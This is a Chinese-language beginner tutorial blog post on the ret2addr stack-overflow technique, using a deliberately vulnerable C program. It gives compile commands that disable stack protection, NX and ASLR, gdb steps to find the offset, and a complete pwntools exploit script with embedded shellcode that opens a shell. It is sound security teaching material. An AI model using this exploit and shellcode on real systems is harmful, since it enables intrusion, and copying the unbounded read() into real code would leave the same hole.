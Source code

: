 ```yaml
---
title: Pwn 入门（ret2addr)
permalink: pwn-ret2addr
date: 2019-09-15 11:20:45
tag: 
 - blog
 - Pwn
 - 网安
categories: 基础
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 

  ```bash
  ulimit -c unlimited
  sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
  ```

- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。

- 用 `gdb 程序名称 core`打开 core 文件。

- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。

  ```sh
  gdb-peda$ print $esp
  0xffffcf80
  ```

- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

shellcode 可以在 [shell-strom](http://shell-storm.org/shellcode/) 这里找到很多，也可以自己手写。

```python
from pwn import *
#context.log_level='debug'
p=process("./vuln") # 此处是程序的路径
payload='a'*92	# 此处的92是第一步所确定的无效字符串的长度
payload+=p32(0xffffcf80) #此处的地址是第二步时获得的 shellcode 地址
#shellcode脚本
payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）